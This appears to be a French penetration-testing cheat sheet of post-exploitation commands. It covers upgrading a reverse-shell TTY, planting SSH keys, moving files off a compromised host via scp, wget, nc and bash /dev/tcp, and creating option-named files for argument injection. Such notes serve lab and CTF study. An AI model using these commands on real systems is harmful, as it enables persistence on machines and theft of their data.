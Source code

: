 ## Utilitaires

> Commandes et techniques utiles pour réaliser une élévation de privilèges

- **Beautify tty** :

  ```bash
  $ python3 -c 'import pty; pty.spawn("/bin/bash")'
  
  CRTL + z (pour background le process du reverse_shell)
  stty -a | head -n1 
  (regarder les rows et columns)
  
  $ stty raw -echo ; fg;
  $ export TERM=xterm-256color ; stty rows 59 columns 235 ; reset
  ```



- **Générer une paire de clés ssh à copier dans `.ssh/authorized_keys/id_rsa.pub`** :

  ```bash
  $ ssh-keygen -t rsa -b 2048 -f mykey
  ```

  

- **Télécharger des fichiers à partir d'une machine pwned**:

  - *Via python3* :

  ```bash
  # Hôte
  $ cd /directory_you_want_to_dl_from
  $ python3 -m http.server 5655
  
  # Cible
  $ wget http://<host-ip>:5655/<file>
  ```

  - *Via SCP* (donc SSH, besoin d'avoir les identifiants de l'utilisateur courant et un serveur SSH fonctionnel sur l'hôte) :

  ```bash
  # Cible
  $ scp -p <fichier_local> <identifiant_SSH>@<IP>:/tmp/
  ```

  - *S'il n'y a pas wget/curl* :

  ```bash
  # Hôte
  $ nc -lvp 7878 < file
  
  # Cible
  $ bash -c "cat /dev/tcp/<IP>/7878 > file" 
  ```

  

- **Connexion à mysql avec des identifiants** :

  ```bash
  $ mysql -u <user> -p
  ```

  

- **Créer un fichier avec un nom contenant des caractères spéciaux :**

  ```bash
  $ touch -- <name_file_for_example (e.g. --preserve=mode)>
  ```

